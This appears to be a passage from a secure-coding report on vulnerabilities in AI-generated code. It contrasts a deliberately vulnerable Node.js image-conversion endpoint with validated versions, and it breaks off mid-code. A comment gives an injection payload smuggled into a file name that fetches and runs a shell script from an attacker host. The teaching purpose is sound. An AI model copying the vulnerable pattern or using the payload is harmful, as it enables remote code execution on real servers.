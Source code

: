 **Secure Implementation:**
```python
def search_users_secure(search_term, role=None):
    # ✅ SECURE: Parameterized queries prevent injection
    if role:
        query = "SELECT * FROM users WHERE name LIKE %s AND role = %s"
        params = (f"%{search_term}%", role)
    else:
        query = "SELECT * FROM users WHERE name LIKE %s"
        params = (f"%{search_term}%",)
    
    cursor.execute(query, params)
    return cursor.fetchall()
```

### 1.1.2 Command Injection Vulnerabilities

A 2024 analysis by SecureLeap found that AI models frequently generate code vulnerable to command injection, particularly when dealing with system operations [7]. The models often default to using shell=True in subprocess calls or direct string concatenation in system commands.

**AI-Generated Vulnerable Code:**
```javascript
// Prompt: "Create an image conversion API endpoint"
const { exec } = require('child_process');

app.post('/convert-image', (req, res) => {
    const { inputFile, outputFormat, quality } = req.body;
    
    // ❌ VULNERABLE: Unvalidated user input in shell command
    const command = `convert ${inputFile} -quality ${quality} output.${outputFormat}`;
    
    exec(command, (error, stdout, stderr) => {
        if (error) {
            return res.status(500).json({ error: error.message });
        }
        res.json({ success: true, output: `output.${outputFormat}` });
    });
});

// Attack vector:
// inputFile = "test.jpg; curl http://attacker.com/shell.sh | bash"
```

**Secure Implementation:**
```javascript
const { spawn } = require('child_process');
const path = require('path');

app.post('/convert-image', (req, res) => {
    const { inputFile, outputFormat, quality } = req.body;
    
    // ✅ SECURE: Input validation
    if (!/^[a-zA-Z0-9_\-]+\.(jpg|png|gif)$/.test(inputFile)) {
        return res.status(400).json({ error: 'Invalid input file' });
    }
    
    if (!['jpg', 'png', 'webp'].includes(outputFormat)) {
        return res.status(400).json({ error: 'Invalid output format' });
    }
    
    const qualityNum = parseInt(quality, 10);
    if (isNaN(qualityNum) || qualityNum < 1 || qualityNum > 100) {
        return res.status(400).json({ error: 'Invalid quality value' });
    }
    
```